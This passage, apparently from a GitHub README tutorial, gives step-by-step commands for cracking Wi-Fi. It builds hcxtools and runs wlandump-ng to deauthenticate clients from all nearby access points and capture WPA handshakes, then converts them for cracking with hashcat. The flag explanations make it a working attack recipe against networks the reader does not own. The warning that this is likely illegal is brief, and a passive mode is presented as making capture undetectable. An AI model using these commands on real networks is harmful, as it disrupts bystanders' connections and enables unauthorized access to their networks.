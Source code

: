 HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
Thanks again to @harshpatel991, as well as phillips321 for his post about building hashcat for OSX.

Capturing handshakes with wlandump-ng
@enilfodne has informed me that the hashcat community has a prefered tool for capturing WPA 4-way handshakes, called wlandump-ng. This tool belongs to a suite of hashcat related utilities called hcxtools developed by ZerBea, and has notable perks over airdump-ng. wlandump-ng allows you to blanket capture handshakes from every nearby network at once, hopping Wi-Fi channels in order to increase collection.

# clone hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# build and install
# you will likely need to apt install the required dependencies:
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# blanket death connected clients from all nearby access points and listen for re-connections
# replace wlan0 with your wireless device name
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# once you've got a capture file, you can convert it to the hashcat capture format with
cap2hccapx.bin capture.cap capture.hccapx
wlandump-ng command-line args (use -h flag for full list):

-c 1: start in the 2.4Ghz range from channel 1 (will go to 13)
-t 60: stay on each channel for 60s (experiment with lower values, default is 5)
-d 100: send deauth every 100 beacon frames
-D 10: send disassosciation packets every 10 beacons frames
-m 512: internal ringbuffer size, use 512 for low resource machines
-b: activate beaconing to last 10 probe requests
-r: reset deauthentication/disassosciation counter if hop loop is on channel 1
-s 20: display 20 status lines
WARNING: Using this is likely illegal in most places. See here for more info.

wlandump-ng also offers the option to run in passive mode without transmitting any deauth/disassociation frames. This is recommended if you are are sensitive to disrupting the network activity of those around you (which you should be). The trade-off is that you will capture far fewer handshakes, but this method makes the capture undetectable.
